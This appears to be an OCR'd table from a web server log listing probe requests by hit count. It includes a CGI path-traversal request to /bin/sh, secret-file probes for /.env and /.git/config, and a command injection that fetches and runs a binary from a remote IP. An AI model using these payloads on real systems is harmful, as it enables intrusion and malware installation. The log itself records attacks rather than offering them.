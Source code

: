 |   2 |                    41 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
|   3 |                    30 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                   |
|   4 |                    17 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |
|   5 |                    16 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|   6 |                    14 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|   7 |                    11 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                |
|   8 |                     7 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|   9 |                     6 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                     |
|  10 |                     6 | GET /password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
|  11 |                     6 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                              |
|  12 |                     6 | GET /1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|  13 |                     6 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
|  14 |                     6 | GET /manager/html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |